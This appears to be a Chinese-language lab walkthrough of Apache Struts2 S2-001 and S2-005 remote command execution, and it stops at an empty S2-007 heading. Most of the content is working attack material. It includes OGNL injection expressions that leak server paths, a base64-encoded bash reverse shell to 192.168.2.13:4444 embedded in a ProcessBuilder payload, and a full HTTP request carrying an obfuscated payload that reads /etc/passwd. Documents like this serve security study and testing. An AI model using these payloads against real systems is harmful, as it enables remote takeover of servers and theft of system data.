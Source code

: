 # structs2-001(远程命令执行)

### 漏洞背景

> 该漏洞因为用户提交表单数据并且验证失败时,后端会将用户之前提交的参数值使用`OGNL`表达式`%{value}`进行解析,让后重新填充到对应的表单数据中.例如注册或登录页面,提交失败后端一般会默认返回之间提交的数据,由于后端使用`%{value}`对提交的数据执行了一次`OGNL`表达式解析,所以可以直接构造payload进行命令执行

### 开始攻击

- 构造`OGNL`表达式

<img src="./assets/image-20241024104200915.png" alt="image-20241024104200915" style="zoom:50%;" />

- 发现表达式被执行了

<img src="./assets/image-20241024104244553.png" alt="image-20241024104244553" style="zoom:50%;" />

- 尝试tomcat执行路径

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

<img src="./assets/image-20241024104755523.png" alt="image-20241024104755523" style="zoom:50%;" />

- 获取的路径`tomcatBinDir{/usr/local/tomcat}`

- 尝试获取网站路径

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

<img src="./assets/image-20241024104927455.png" alt="image-20241024104927455" style="zoom:50%;" />

- 开始尝试反弹`shell`

```bash
# 使用base64编码
bash -i >& /dev/tcp/192.168.2.13/4444 0>&1
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMvNDQ0NCAwPiYx

#构造payload
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"bash","-c","{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMTMvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![image-20241024110742151](./assets/image-20241024110742151.png)

- 反弹成功

<img src="./assets/image-20241024110803839.png" alt="image-20241024110803839" style="zoom:33%;" />

****

# structs2-005(远程命令执行)

> s2-005

- `burp抓包`看一下

![image-20241024112651822](./assets/image-20241024112651822.png)

- 构造payload,发送数据包(这里需要修改请求方法为post)

```http
POST /example/HelloWorld.action HTTP/1.1
Host: 192.168.2.254:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=D0222EC6F06798698F5BADA80CA06033
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 666

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```

![image-20241024113111484](./assets/image-20241024113111484.png)

- `%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27`->`cat /etc/passwd`

****

# structs2-007

